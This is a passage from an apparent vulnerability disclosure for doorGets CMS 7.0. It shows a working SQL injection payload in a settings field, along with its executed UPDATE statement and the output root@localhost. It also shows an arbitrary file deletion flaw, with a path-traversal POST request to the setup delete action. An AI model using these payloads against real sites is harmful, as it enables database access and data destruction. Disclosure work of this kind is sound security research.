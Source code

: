 Save
------WebKitFormBoundarywNHfnN6qoADnI3Pw--
```
The SQL statement executed by the program is:
```UPDATE `_website_traduction` SET title = 'test1\', slogan = ',title=(select/**/user())/**/WHERE/**/langue=0x656e#', description = 'test1', copyright = 'test1', year = '2019', keywords = 'test1', statut_tinymce = '', signature_tinymce = '', cgu_tinymce = '', terms_tinymce = '', privacy_tinymce = '' WHERE langue = 'en'  LIMIT 1  ;```

Revisit ```http://domain.com/dg-user/?controller=configuration&action=siteweb```
The result of getting SQL injection is: root@localhost

![73.png](./img/73.png)


**[19]**

In \doorgets\app\requests\user\configurationRequest.php:

![74.png](./img/74.png)

Line 1083 enters the case when $_GET['action']=setup and $_GET['do']=delete.
Line 1082 verifies the token.
Line 1094 directly calls the unlink function to delete the file specified by $_GET['file'].

Since the value of file is not filtered, an attacker can delete any file.

Administrators log in and access ```http://domain.com/dg-user/?Controller=configuration&action=setup```
If there is no backup currently, then back up one:

![75.png](./img/75.png)

Then select a backup, click the button below and grab the package:

![76.png](./img/76.png)

Modify the value of the file parameter as follows:
```
POST /dg-user/?controller=configuration&action=setup&do=delete&file=./../data/1234.txt HTTP/1.1
Host: 127.0.0.1:8003
Content-Length: 408
Cache-Control: max-age=0
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjFIyYDadLyzKcDuF
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=configuration&action=setup&do=delete&file=doorGets_CMS_7.0_5ca1bf580743c_1554104152.zip
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6
Connection: close
